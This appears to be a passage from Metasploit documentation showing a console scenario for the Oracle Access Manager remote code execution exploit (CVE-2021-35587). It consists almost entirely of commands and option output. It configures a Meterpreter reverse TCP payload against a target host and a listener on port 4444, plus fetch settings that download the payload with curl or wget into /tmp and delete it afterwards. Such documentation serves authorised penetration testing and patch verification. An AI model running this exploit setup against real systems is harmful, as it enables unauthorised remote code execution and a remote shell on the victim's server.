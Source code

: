 ## Scenarios

### Linux Command

```
msf > use exploit/multi/http/oracle_access_manager_rce_cve_2021_35587 
[*] Using configured payload cmd/linux/https/x64/meterpreter_reverse_tcp
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set TARGET 0
TARGET => 0
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set PAYLOAD cmd/linux/https/x64/meterpreter_reverse_tcp 
PAYLOAD => cmd/linux/https/x64/meterpreter_reverse_tcp
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set RHOSTS 192.168.86.70
RHOSTS => 192.168.86.70
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set LHOST eth0
LHOST => eth0
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > show options 

Module options (exploit/multi/http/oracle_access_manager_rce_cve_2021_35587):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.70    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      14100            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /oam/            yes       The base path to the OAM application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/https/x64/meterpreter_reverse_tcp):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FETCH_CHECK_CERT  false            yes       Check SSL certificate
   FETCH_COMMAND     CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE      true             yes       Attempt to delete the binary after execution
   FETCH_FILELESS    none             yes       Attempt to run payload without touching disk by using anonymous handles, requires Linux ≥3.17 (for Pytho
                                                n variant also Python ≥3.8 (Accepted: none, bash, python3.8+)
   FETCH_SRVHOST                      no        Local IP to use for serving payload
   FETCH_SRVPORT     8080             yes       Local port to use for serving payload
   FETCH_URIPATH                      no        Local URI to use for serving payload
   LHOST             eth0             yes       The listen address (an interface may be specified)
   LPORT             4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      JLIwdQAt         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


```